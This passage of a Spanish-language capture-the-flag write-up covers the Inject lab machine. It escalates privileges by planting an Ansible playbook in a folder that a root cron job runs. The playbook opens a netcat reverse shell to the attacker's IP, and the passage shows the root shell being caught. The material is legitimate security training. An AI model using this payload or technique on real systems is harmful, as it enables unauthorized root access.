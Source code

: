```
root       2094349    .0:02./usr/bin/python3./usr/bin/ansible-playbook./opt/automation/tasks/playbook_1.yml
root       2095028    .0:00./usr/bin/python3./usr/bin/ansible-playbook./opt/automation/tasks/playbook_1.yml

```

Cada 10 segundos se ejecutan una serie de instrucciones, entre dichas instrucciones encontramos la siguiente: /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml

Ansible-parallel es una herramienta que se ejecuta en Python yque permite a los usuarios ejecutar tareas de Ansible de forma paralela por lo tanto si se logra crear un archivo .yml en la ruta /opt/automation/tasks/ para que genere una reverse shell entonces se podra realizar una escalacion de privilegios.

Teniendo la informacion anterior en cuenta, debemos crear el archivo .yml con el payload correcto para generar un reverse shell aunque primero se debe obtener una copia de nc que permita ejecutar una shell, ya que la version de nc que se tiene en la maquina inject por defecto no cumple con los requisitos.

Para obtener una copia de nc usamos el siguiente archivo del repositorio static-binaries https://github.com/yunchih/static-binaries/blob/master/nc

```
# nuestra maquina
$ scp nc frank@10.10.11.204:/home/frank/                                          
nc                                                              100%  937KB   1.3MB/s   00:00

# maquina objetivo
phil@inject:~$ cp /home/frank/nc ./
```

Ahora en el archivo payload.yml ponemos el siguiente payload

```
- name: Ejecutar shell en el host remoto
  hosts: localhost
  gather_facts: no
  tasks:
  - name: Ejecutar shell en el host remoto
    shell: /home/phil/nc -e /usr/bin/sh <nuestra_ip> 1234
```

Por ultimo copiamos el archivo payload.yml en /opt/automation/tasks/ y esperamos unos segundos a que se ejecute el payload.yml

```
# nuestra maquina 
$ nc -lvnp 1234
listening on [any] 1234 ...

# maquina objetivo
phil@inject:~$ cp payload.yml /opt/automation/tasks/

# nuestra maquina
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.204] 56174
sh: turning off NDELAY mode
whoami
root
cat /root/root.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```